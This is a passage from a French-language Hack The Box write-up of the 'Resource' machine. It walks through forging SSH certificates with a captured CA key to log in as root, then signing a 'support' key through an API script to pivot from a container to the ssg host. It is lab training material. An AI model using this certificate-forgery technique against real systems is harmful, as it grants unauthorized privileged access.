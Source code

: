 Utilisons le même processus que précédemment pour créer une clé SSH pour root, et voyons si nous y trouvons quelque chose d'intéressant.

```
ssh-keygen -t rsa -b 4096 -f id_rsa_root
ssh-keygen -s ca-itrc -I root_key_id -n root -V +52w id_rsa_root.pub
ssh -i id_rsa_root root@itrc.ssg.htb
```

Malheureusement, le compte root est vide, mais nous remarquons une adresse IP différente mentionnée (`172.223.0.3`). Cela signifie probablement que nous sommes à l'intérieur d'un conteneur dont nous devons sortir.

![root SSH login](/images/HTB-Resource/root_ssh.png)

### Shell en tant que support (sur l'hôte ssg)

Le script contient une liste d'utilisateurs valides, nous allons donc utiliser l'un d'entre eux.

1. Générer une clé SSH pour `support`.

```
ssh-keygen -t rsa -b 4096 -f id_rsa_support
```

2. Nous utilisons le script pour générer un certificat SSH signé.

```
bash ./sign_key_api.sh id_rsa_support.pub support support
```

* Vous recevrez le certificat SSH en format OpenSSH. Nous utilisons `echo "YOUR_SSH_CERTIFICATE" > id_rsa_support-cert.pub` pour le stocker dans un fichier car nous n'avons pas accès à un éditeur de texte.

![support SSH certificate](/images/HTB-Resource/support_ssh_cert.png)

3. Modifier les permissions des fichiers

```
chmod 600 id_rsa_support
chmod 600 id_rsa_support-cert.pub
```

4. Se connecter via SSH

```
ssh -i id_rsa_support -p 2222 support@172.223.0.1
```

![root SSH login](/images/HTB-Resource/support_ssh_login.png)

Le nom d'hôte de notre précédente session SSH (avec root) était `itrc`, maintenant nous sommes connectés en tant que `support` et le nom d'hôte est `ssg`. Le dossier personnel de `support` est vide, et `etc/passwd` montre que `zzinter` est aussi un utilisateur ici.

![zzinter user on ssg host](/images/HTB-Resource/zzinter_ssg_host.png)

### Shell en tant que zzinter (sur l'hôte ssg)
